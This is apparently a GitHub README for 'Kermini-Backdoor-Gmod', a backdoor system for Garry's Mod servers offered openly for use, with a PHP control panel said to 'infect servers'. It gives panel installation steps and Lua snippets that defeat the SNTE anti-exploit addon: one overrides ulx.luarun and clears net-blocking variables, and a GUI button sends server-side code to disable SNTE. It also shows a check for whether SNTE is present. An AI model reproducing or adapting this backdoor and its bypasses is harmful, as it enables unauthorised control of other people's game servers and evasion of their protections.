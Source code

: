 # Kermini-Backdoor-Gmod
Kermini-Backdoor : a gmod simple backdoor System Initially, I created this for my personal use but I am not an egoist, so keep going and have fun | Do not forget to configure it correctly

backdoor.lua : The file that contain the code to infect servers |Can sometimes spam errors when a player join

 # Kermini Official Discord
 https://discord.gg/SzSFeNc
 https://discord.gg/SzSFeNc
 https://discord.gg/SzSFeNc

# Installation Process | Files

open main.php and change Database settings and the others options if you want

open class/Config.php and change Database settings

open deletepayload.php and change Database settings

open send_payload_update.php and change Database settings

open install folder and change Database settings

open phpMyAdmin and execute Kermini-s-q-l.sql 

open www.[DOMAIN].com/install and create an account |Delete this folder after this step

Here you go ! Enjoy

# Hey i found an exploit related to the panel !

No problem, just contact me and tell me what is going wrong, i will do my best to resolve it.

# SNTE
https://steamcommunity.com/sharedfiles/filedetails/?id=1308262997

This addon can sometimes block your Payloads so try bypasses 

timer.Simple(0.5, function()
    function ulx.luarun(calling_ply, command)
        print("ez snte")
    end
    bad_net = ""
    local bad_net = ""
    local global_nets = ""
    global_nets = ""
end)
___
local Macro = vgui.Create("DButton", BackGround)
Macro:SetPos(255, 160)
Macro:SetParent(Controller)
Macro:SetTextColor(Color(255, 255, 255, 255))
Macro:SetSize(200, 25)
Macro:SetText("BREAK SNTE")
Macro.Paint = function()
    surface.SetDrawColor(50, 50, 50 , 200)
    surface.DrawRect(0, 0, Macro:GetWide(), Macro:GetTall())
    surface.SetDrawColor(0, 0, 0, 200)
    surface.DrawOutlinedRect(0, 0, Macro:GetWide(), Macro:GetTall())
end
___
Macro.DoClick = function()
    net.Start(netKey)
        net.WriteString([[
            _G.SNTE = function() end
        ]])
        net.WriteBit(1)
    net.SendToServer()
    chat.AddText(Color(255,204,153), "亗ADM TEAM", Color(255, 255, 255), "LANCER !" )
    SploitNotify("LANCER")
    surface.PlaySound("buttons/button15.wav")
end

# How to detect SNTE ON A SERVER :

local isSNTE = false
if ConVarExists("snte_dupefix") or file.Exists( "autorun/server/snte_source.lua", "LUA" ) == true then
    isSNTE = true
end

if isSNTE then
    chat.AddText(Color(26, 48, 219), "[KERMINI]", Color(35, 142, 219), " SNTE DETECTED")
end

# The code is telling me something 

yep i can code in php but im not a pro designer so i used
- https://github.com/bcool/ULX-Global-Ban/tree/master/WebPage/TCB-Theme-master (For the display)
- And somthing called Gbackdoor (I know there is exploits related to this panel, i made a different code for some parts) 

ps : gbackdoor used only for server adding/update | Payload system have been a little bit modified

